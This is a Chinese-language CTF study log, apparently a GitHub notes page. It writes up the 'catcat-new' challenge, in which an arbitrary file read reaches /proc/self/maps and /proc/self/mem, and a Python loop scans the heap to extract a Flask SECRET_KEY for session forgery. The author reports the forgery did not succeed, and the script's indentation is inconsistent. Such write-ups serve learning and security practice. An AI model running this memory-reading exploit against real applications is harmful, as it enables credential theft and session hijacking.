 ## CTF
- [x] web方向题目(java)
### [羊城杯 2020]A Piece Of Java
不会做,好多知识点
### catcat-new
- 任意文件读取
/info?file=*file-path* ,读取app.py,发现需要伪造flask key
- python对象存储在堆上

`app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"`
所以我们可以通过读取堆上的数据来读取secret_key

> 由于/proc/self/mem内容较多而且存在不可读写部分，直接读取会导致程序崩溃，所以先读取/proc/self/maps获取堆栈分布

```python
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")  
map_list = map_list.text.split("\\n")  
for i in map_list:  
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)  
    if map_addr:  
        start = int(map_addr.group(1), 16)  
        end = int(map_addr.group(2), 16)  
        print("Found rw addr:", start, "-", end)
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")  
		if "*abcdefgh" in res.text:  
		    secret_key = re.findall("[a-z0-9]{32}\*abcdefgh", res.text)  
	        if secret_key:  
			    print("Secret Key:", secret_key[0])
```

获取后伪造即可

---
*失败,读到了secret一直伪造不成功*


## web3
- [ ] 区块链文章阅读及分析

## SRC
- [ ] SRC文章阅读及分析

## CVE

## Misc


---
*摘取一颗海上星,陪我终夜不孤寂*



